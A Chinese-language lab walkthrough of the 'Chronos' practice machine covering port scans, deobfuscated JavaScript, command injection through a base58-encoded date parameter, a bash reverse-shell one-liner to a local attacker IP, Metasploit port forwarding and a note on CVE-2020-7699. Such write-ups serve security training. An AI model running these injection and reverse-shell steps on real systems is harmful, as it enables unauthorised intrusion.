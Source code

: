 信息收集

```
┌──(root㉿kali)-[/home/soyamilk]
└─# nmap -sS -T4 -p- -vv 10.0.2.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 16:41 CST
Initiating ARP Ping Scan at 16:41
Scanning 10.0.2.4 [1 port]
Completed ARP Ping Scan at 16:41, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:41
Completed Parallel DNS resolution of 1 host. at 16:41, 0.01s elapsed
Initiating SYN Stealth Scan at 16:41
Scanning 10.0.2.4 [65535 ports]
Discovered open port 22/tcp on 10.0.2.4
Discovered open port 80/tcp on 10.0.2.4
Discovered open port 8000/tcp on 10.0.2.4
Completed SYN Stealth Scan at 16:42, 33.44s elapsed (65535 total ports)
Nmap scan report for 10.0.2.4
Host is up, received arp-response (0.00040s latency).
Scanned at 2024-03-23 16:41:54 CST for 34s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64
MAC Address: 08:00:27:EB:47:08 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 33.62 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65544 (2.622MB)
                                                                                                                                                                           
┌──(root㉿kali)-[/home/soyamilk]
└─# nmap -sS -T4 -A -p22,80,8000 10.0.2.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 16:43 CST
Nmap scan report for 10.0.2.4
Host is up (0.00049s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:f2:83:a4:38:89:8d:86:a5:e1:31:76:eb:9d:5f:ea (RSA)
|   256 41:5a:21:c4:58:f2:2b:e4:8a:2f:31:73:ce:fd:37:ad (ECDSA)
|_  256 9b:34:28:c2:b9:33:4b:37:d5:01:30:6f:87:c4:6b:23 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8000/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:EB:47:08 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 10.0.2.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.29 seconds

```

查看80端口，发现源代码中有混淆js代码

```JavaScript
var _0x5bdf=['150447srWefj','70lwLrol','1658165LmcNig','open','1260881JUqdKM','10737CrnEEe','2SjTdWC','readyState','responseText','1278676qXleJg','797116soVTES','onreadystatechange','http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL','User-Agent','status','1DYOODT','400909Mbbcfr','Chronos','2QRBPWS','getElementById','innerHTML','date'];(function(_0x506b95,_0x817e36){var _0x244260=_0x432d;while(!![]){try{var _0x35824b=-parseInt(_0x244260(0x7e))*parseInt(_0x244260(0x90))+parseInt(_0x244260(0x8e))+parseInt(_0x244260(0x7f))*parseInt(_0x244260(0x83))+-parseInt(_0x244260(0x87))+-parseInt(_0x244260(0x82))*parseInt(_0x244260(0x8d))+-parseInt(_0x244260(0x88))+parseInt(_0x244260(0x80))*parseInt(_0x244260(0x84));if(_0x35824b===_0x817e36)break;else _0x506b95['push'](_0x506b95['shift']());}catch(_0x3fb1dc){_0x506b95['push'](_0x506b95['shift']());}}}(_0x5bdf,0xcaf1e));function _0x432d(_0x16bd66,_0x33ffa9){return _0x432d=function(_0x5bdf82,_0x432dc8){_0x5bdf82=_0x5bdf82-0x7e;var _0x4da6e8=_0x5bdf[_0x5bdf82];return _0x4da6e8;},_0x432d(_0x16bd66,_0x33ffa9);}function loadDoc(){var _0x17df92=_0x432d,_0x1cff55=_0x17df92(0x8f),_0x2beb35=new XMLHttpRequest();_0x2beb35[_0x17df92(0x89)]=function(){var _0x146f5d=_0x17df92;this[_0x146f5d(0x85)]==0x4&&this[_0x146f5d(0x8c)]==0xc8&&(document[_0x146f5d(0x91)](_0x146f5d(0x93))[_0x146f5d(0x92)]=this[_0x146f5d(0x86)]);},_0x2beb35[_0x17df92(0x81)]('GET',_0x17df92(0x8a),!![]),_0x2beb35['setRequestHeader'](_0x17df92(0x8b),_0x1cff55),_0x2beb35['send']();}
  
```

```JavaScript
var _0x5bdf = [
	'150447srWefj',
	'70lwLrol',
	'1658165LmcNig',
	'open',
	'1260881JUqdKM',
	'10737CrnEEe',
	'2SjTdWC',
	'readyState',
	'responseText',
	'1278676qXleJg',
	'797116soVTES',
	'onreadystatechange',
	'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL',
	'User-Agent',
	'status',
	'1DYOODT',
	'400909Mbbcfr',
	'Chronos',
	'2QRBPWS',
	'getElementById',
	'innerHTML',
	'date'
];
(function (_0x506b95, _0x817e36) {
	var _0x244260 = _0x432d;
	while (!![]) {
		try {
			var _0x35824b = -parseInt(_0x244260(126)) * parseInt(_0x244260(144)) + parseInt(_0x244260(142)) + parseInt(_0x244260(127)) * parseInt(_0x244260(131)) + -parseInt(_0x244260(135)) + -parseInt(_0x244260(130)) * parseInt(_0x244260(141)) + -parseInt(_0x244260(136)) + parseInt(_0x244260(128)) * parseInt(_0x244260(132));
			if (_0x35824b === _0x817e36)
				break;
			else
				_0x506b95['push'](_0x506b95['shift']());
		} catch (_0x3fb1dc) {
			_0x506b95['push'](_0x506b95['shift']());
		}
	}
}(_0x5bdf, 831262));
function _0x432d(_0x16bd66, _0x33ffa9) {
	return _0x432d = function (_0x5bdf82, _0x432dc8) {
		_0x5bdf82 = _0x5bdf82 - 126;
		var _0x4da6e8 = _0x5bdf[_0x5bdf82];
		return _0x4da6e8;
	}, _0x432d(_0x16bd66, _0x33ffa9);
}
function loadDoc() {
	var _0x17df92 = _0x432d, _0x1cff55 = _0x17df92(143), _0x2beb35 = new XMLHttpRequest();
	_0x2beb35[_0x17df92(137)] = function () {
		var _0x146f5d = _0x17df92;
		this[_0x146f5d(133)] == 4 && this[_0x146f5d(140)] == 200 && (document[_0x146f5d(145)](_0x146f5d(147))[_0x146f5d(146)] = this[_0x146f5d(134)]);
	}, _0x2beb35[_0x17df92(129)]('GET', _0x17df92(138), !![]), _0x2beb35['setRequestHeader'](_0x17df92(139), _0x1cff55), _0x2beb35['send']();
}
```

简单解密之后如下，主要部分就是后面发xml包的部分，url为`http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，并且需要注意的是ua头必须是`Chronos`才能返回内容

```javascript
var _0x5bdf = [
	'150447srWefj',
	'70lwLrol',
	'1658165LmcNig',
	'open',
	'1260881JUqdKM',
	'10737CrnEEe',
	'2SjTdWC',
	'readyState',
	'responseText',
	'1278676qXleJg',
	'797116soVTES',
	'onreadystatechange',
	'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL',
	'User-Agent',
	'status',
	'1DYOODT',
	'400909Mbbcfr',
	'Chronos',
	'2QRBPWS',
	'getElementById',
	'innerHTML',
	'date'
];

(function (_0x506b95, _0x817e36) {
	var _0x244260 = _0x432d;
	while (!![]) {
		try {
			var _0x35824b = -parseInt(_0x244260(126)) * parseInt(_0x244260(144)) + parseInt(_0x244260(142)) + parseInt(_0x244260(127)) * parseInt(_0x244260(131)) + -parseInt(_0x244260(135)) + -parseInt(_0x244260(130)) * parseInt(_0x244260(141)) + -parseInt(_0x244260(136)) + parseInt(_0x244260(128)) * parseInt(_0x244260(132));
			if (_0x35824b === _0x817e36){
				break;
			}else
				_0x506b95['push'](_0x506b95['shift']());
		} catch (_0x3fb1dc) {
			_0x506b95['push'](_0x506b95['shift']());
		}
	}
}(_0x5bdf, 831262));
function _0x432d(_0x16bd66, _0x33ffa9) {
    return _0x5bdf[_0x16bd66 - 126];
}
function loadDoc() {
	var _0x17df92 = _0x432d, _0x1cff55 = 'Chronos', _0x2beb35 = new XMLHttpRequest();
	_0x2beb35['onreadystatechange'] = function () {
		var _0x146f5d = _0x17df92;
		this['readyState'] == 4 && this['status'] == 200 && (document['getElementById']('date')['innerHTML'] = this['responseText']);
	}, _0x2beb35['open']('GET', 'http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL', true), _0x2beb35['setRequestHeader']('User-Agent', _0x1cff55), _0x2beb35['send']();
}
console.log(_0x5bdf['push']);
```

对format参数解码，base58编码，百度搜一下命令，发现和date命令有关，尝试能否进行命令拼接

![image-20240324152413147](3.Chronos.assets/image-20240324152413147.png)

![image-20240324152527129](3.Chronos.assets/image-20240324152527129.png)

![image-20240324152654316](3.Chronos.assets/image-20240324152654316.png)

反弹shell

```
bash -c "/bin/bash -i >& /dev/tcp/10.0.2.15/6543 0>&1"
```

![image-20240324152904642](3.Chronos.assets/image-20240324152904642.png)

![img](3.Chronos.assets/37d2f939bb7856eefc0782ff91b0935a.png)

![image-20240324153958491](3.Chronos.assets/image-20240324153958491.png)

suid没有可以利用的，内核也没有找到能用的，sudo也无，但是在查看进程和网络情况的时候，发现内网有一个8080端口开启，所以用msf搭建一个socks代理

![image-20240324154426554](3.Chronos.assets/image-20240324154426554.png)

![image-20240324162842244](3.Chronos.assets/image-20240324162842244.png)

scoks代理无法访问回环地址，使用portfwd进行端口转发

```
portfwd add -L 127.0.0.1 -l 10807 -r 127.0.0.1 -p 8080
```

![image-20240324162905888](3.Chronos.assets/image-20240324162905888.png)

可以看到，这是开在内网的一个web服务，找到其源码在`/opt/chronos-v2/backend`

![image-20240324210945616](3.Chronos.assets/image-20240324210945616.png)

在服务器上利用python2开一个服务器，然后下载其内网的源码

```
python -m SimpleHTTPServer 8008
```

查看其导入的包，搜一下是否有历史漏洞

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}

```

>CVE-2020-7699：NodeJS模块代码注入
>
>该漏洞完全是由于Nodejs的express-fileupload模块引起，该模块的1.1.8之前的版本存在原型链污染（Prototype Pollution）漏洞，当然，引发该漏洞，需要一定的配置：parseNested选项设置为true
>
>该漏洞可以引发DOS拒绝服务攻击，配合ejs模板引擎，可以达到RCE的目的
